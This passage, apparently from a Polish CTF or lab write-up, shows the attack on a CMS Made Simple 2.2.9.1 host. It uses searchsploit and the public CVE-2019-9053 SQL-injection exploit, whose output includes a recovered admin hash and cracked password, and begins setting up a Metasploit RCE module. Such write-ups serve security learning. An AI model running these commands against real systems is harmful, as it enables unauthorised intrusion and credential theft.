 ## 03b. CVE-2019-9053
Wcześniej znalazłem exploit **CVE-2019-9053**, ale mi się nie uruchomił. Powodem był brak biblioteki **Termcolor** do Pythona 2 (w którym uruchamia się skrypt). Niestety Python 2 powoli wychodzi z użycia, ale stare exploity zostały. Poprawiłem to (skopiowałem plik _termcolor.py_ z katalogu _/usr/lib/python3/dist-packages_ do _/usr/lib/python2_) i odpaliłem skrypt z ciekawości. Poniżej pokazuje jak go znalazłem i jego efekty działania.
{: .text-justify}
```bash
searchsploit cms made simple sql
```
```bash
# -------------------------------------------------------------------------------------------------------------------- ---------------------------------
# Exploit Title                                                                                                      |  Path
# -------------------------------------------------------------------------------------------------------------------- ---------------------------------
# CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                                              | php/webapps/29941.txt
# CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                                                | php/webapps/4810.txt
# CMS Made Simple < 2.2.10 - SQL Injection                                                                            | php/webapps/46635.py
```
```bash
python2 46635.py -u http://172.16.1.227/ --crack -w /usr/share/wordlists/rockyou.txt
```
```bash
# [+] Salt for password found: 1a0112229fbd699d
# [+] Username found: admin
# [+] Email found: admin@localhost.com
# [+] Password found: 4f943036486b9ad48890b2efbf7735a8
# [+] Password cracked: hasełko
```
# 04. Podatna wersja CMS Made Simple
Jak wcześniej napisałem jest to **CMS Made Simple**, a jego wersja to **2.2.9.1**. Szukając następnych podatności, tym razem już w **Metasploicie** znalazłem coś takiego:
{: .text-justify}
```bash
msf6 > search CMS Made Simple

# Matching Modules
# ================

#    #  Name                                           Disclosure Date  Rank       Check  Description
#    -  ----                                           ---------------  ----       -----  -----------
#    0  exploit/multi/http/cmsms_showtime2_rce         2019-03-11       normal     Yes    CMS Made Simple (CMSMS) Showtime2 File Upload RCE
#    1  exploit/multi/http/cmsms_upload_rename_rce     2018-07-03       excellent  Yes    CMS Made Simple Authenticated RCE via File Upload/Copy
#    2  exploit/multi/http/cmsms_object_injection_rce  2019-03-26       normal     Yes    CMS Made Simple Authenticated RCE via object injection


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/cmsms_object_injection_rce
```
Wybieramy **multi/http/cmsms_object_injection_rce**:
```bash
msf6 exploit(multi/http/cmsms_object_injection_rce) > set username admin
# username => admin
```